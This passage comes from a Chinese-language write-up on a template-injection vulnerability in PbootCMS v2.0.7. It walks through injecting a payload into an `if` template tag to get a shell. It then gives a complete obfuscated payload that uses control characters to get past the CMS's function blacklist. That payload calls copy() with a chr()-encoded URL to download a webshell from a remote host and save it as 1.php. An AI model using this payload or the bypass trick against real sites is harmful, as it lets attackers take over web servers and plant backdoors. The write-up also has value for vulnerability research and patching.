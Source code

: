     将payload放入模板的`if`语句中

3.  模板注入

![](./resource/PbootCMSv2.0.7模板注入/media/rId34.jpg)

4.  访问带有分页类且又能输出公司地址的地方

![](./resource/PbootCMSv2.0.7模板注入/media/rId35.png)

Getshell成功！！！

### 补充

一开始在研究这个漏洞的时候，就觉得有点麻烦，又要上传图片马，又要构造图片马的路径，不能一个payload直接打，十分麻烦。

于是就跑去问了问P师傅\*\*（P牛，永远滴神！）\*\*

P师傅理解了我的需求后，直接甩了个payload给我

![](./resource/PbootCMSv2.0.7模板注入/media/rId37.png)

看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload

    {pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif}

利用一个`copy()`函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过`chr()`函数一个个还原出shell地址一个个拼接。

向模板注入该payload：

![](./resource/PbootCMSv2.0.7模板注入/media/rId38.jpg)

访问前台触发点：

![](./resource/PbootCMSv2.0.7模板注入/media/rId39.png)

则会去`http://mock.x.dnshia.cn/shell`下载webshell，并保存到`1.php`

![](./resource/PbootCMSv2.0.7模板注入/media/rId40.png)

参考链接
--------

> https://xz.aliyun.com/t/7628

